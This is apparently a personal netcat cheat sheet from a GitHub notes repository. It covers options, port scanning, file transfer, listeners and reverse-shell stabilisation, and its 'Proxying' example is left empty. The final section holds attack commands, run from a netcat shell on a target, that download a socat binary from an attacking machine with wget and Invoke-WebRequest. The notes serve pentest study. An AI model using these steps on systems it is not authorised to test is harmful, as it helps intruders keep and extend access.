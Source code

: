 Netcat is a networking tool that's used for reading from and writing to network connections using TCP or UDP

* Can function as a client that connects to a listening port
* Can function as a server that listens on a port of your choice

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Netcat Options

| Netcat Option | Purpose |
| --- | --- |
| -l | Listen mode |
| -p | Specify the port number (Port numbers less than 1024 require root privileges to listen on) |
| -n | Numeric only (No resolution of hostnames via DNS) |
| -v | Verbose output |
| -vv | Very verbose output |
| -k | Keep listening after a client disconnects from the port |

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Netcat Operations

## Port Scanning 

Netcat allows you to scan for open ports on a target system

```Bash
nc -zv <hostname> <port_range>
```

## File Transfer 

Netcat allows you to send and receive files between two hosts

```Bash
# From sender's machine
nc -lp <port_number> < <file_to_send>

# From receiver's machine
nc <hostname> <port_number> > <file_to_receive> 
```

## Chatting

Netcat allows you to create a simple chat server between two hosts

```Bash
# From listening machine
nc -lp <port_number>

# From connecting machine
nc <hostname> <port_number>
```

## Port Listening (Netcat as a Server)

Netcat allows you to listen on a specific port for incoming connections

```Bash
nc -lvnp <port_number>
```

## Banner Grabbing (Netcat as a Client)

Netcat allows you to fetch information from services running on open ports

```Bash
nc <hostname> <port_number>
```

## Proxying

Netcat allows you to simply use it as a simple network proxy

```Bash

```

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Netcat Shell Stabilization

* Non-interactive by default
* Very unstable by default (Ex: *Pressing CTRL + C kills the whole thing*) due to netcat shells being processes running inside a terminal, rather than being bonafide terminals 

## Netcat Shell Stabilization Using Python

```Bash
# 1. Spawn a better featured shell using Python
python -c 'import pty;pty.spawn("/bin/bash")'

# 2. Give yourself access to term commands
export TERM=xterm

# 3. CTRL + Z to background the shell

# 4. Turn off our own terminal echo and then foreground the shell
stty raw -echo; fg

# 5. Return your own terminal back to normal
reset
```

## Netcat Shell Stabilization Using rlwrap

```Bash
# 1. Install rlwrap
sudo apt -y install rlwrap

# 2. Use rlwrap to invoke a slightly different listener
rlwrap nc -lvnp <port_number>
```

* rlwrap gives us access to history, tab autocompletion, and the arrow keys immediately upong receiving a shell (Some manual stabilisation may be required if you want to be able to use CTRL + C inside the shell)
* Particularly used when dealing with Windows shells since they're usually difficult to stabilise

## Netcat Shell Stabilization Using Socat

```Bash
# 1. Create a webserver on the attacking machine inside the directory containing your socat static compiled binary
sudo python3 -m http.server 80

# 2. Use the netcat shell that's connected to the target machine to download the socat static compiled binary
wget <attacking_machine_address>/<socat_static_compiled_binary_file> -O /tmp/socat
```

```PowerShell
# 2. Use the netcat shell that's connected to the target machine to download the socat static compiled binary
Invoke-WebRequest -uri <attacking_machine_address>/<socat_static_compiled_binary_file>.exe -outfile C:\\Windows\temp\socat.exe
```
